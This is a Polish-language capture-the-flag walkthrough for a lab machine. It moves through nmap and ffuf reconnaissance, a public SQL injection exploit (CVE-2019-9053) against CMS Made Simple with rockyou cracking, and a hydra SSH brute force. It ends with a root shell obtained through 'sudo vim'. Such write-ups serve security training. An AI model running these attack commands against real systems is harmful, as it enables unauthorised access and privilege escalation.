 # EasyCTF
IP=10.10.123.62

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.123.62 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-04 13:31 EDT
Nmap scan report for 10.10.123.62
Host is up (0.047s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.26 seconds
```

Zostały wykryte trzy porty, w tym dwa poniżej portu 1000. Na najwyższym wykrytym porcie 2222 działa usługa SSH.

## Skanowanie

### Port 80 (pierwsza droga do zdobycia flag)
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Jest to domyślna strona Apache'a. Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.123.62/FUZZ -c
```

![Ffuf](img/Ffuf.JPG)

Na podstronie "simple" znajdujemy wersję aplikacji:

![CMS](img/CMS.JPG)

```
CMS Made Simple version 2.2.8
```

Znajdujemy [exploit'a](https://www.exploit-db.com/exploits/46635) SQL Injection (sqli) o numerze CVE: 2019-9053, kóry pozwala na uzyskanie loginu i hasła:

![Exploit](img/Exploit.JPG)

Gdyby ten exploit nie działał należy pobrać tego [exploit'a](https://github.com/e-renna/CVE-2019-9053/blob/master/exploit.py).

## Eksploitacja

Nadajemy skryptowi uprawnienia do wykonywania i odpalamy go z odpowiednimi opcjami:

```
python3 csm_made_simple_injection.py -u http://10.10.123.62/simple/ -w /usr/share/wordlists/rockyou.txt --crack
```

Po chwili uzyskujemy dane do logowania:

![Skrypt](img/Skrypt.JPG)

```
mitch:secret
```

### Port 21 (druga droga do zdobycia flag)

Logujemy się do serwisu FTP i pobieramy znalezioną tam notatkę:

![Ftp](img/Ftp.JPG)

Dowiadujemy się, że użytkownik Mitch ma słabe hasło:

![Note](img/Note.JPG)

## Eksploitacja

Łamiemy hasło do serwisu SSH na porcie 2222 za pomocą hydry:

```
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://10.10.123.62
```

![Hydra](img/Hydra.JPG)

```
mitch:secret
```

### Port 2222

Logujemy się do serwisu SSH za pomocą znalezionych danych:

![2222](img/2222.JPG)

W katalogu domowym użytkownika mitch znajdujemy pierwszą flagę:

![Flag1](img/Flag1.JPG)

```
G00d j0b, keep up!
```

W systmie znajduje się też inny użytkownik:

![Sun](img/Sun.JPG)

## Zwiększenie poziomu uprawnień

Sprawdzamy uprawnienia użytkownika mitch w systemie:

![Sudo](img/Sudo.JPG)

Widzimy, że prawdopodobnie będziemy w stanie podnieść swoje uprawnienia za pomocą komendy vim. Znajdujemy [exploit'a](https://gtfobins.github.io/gtfobins/vim/) i wykorzystujemy go, aby uzyskać uprawnienia root'a:

![Root](img/Root.JPG)

```
sudo vim -c ':!/bin/sh'
```

W katalogu domowym użytkownika root znajdujemy drugą flagę:

![Flag2](img/Flag2.JPG)

Do zobaczenia na kolejnych CTF-ach!
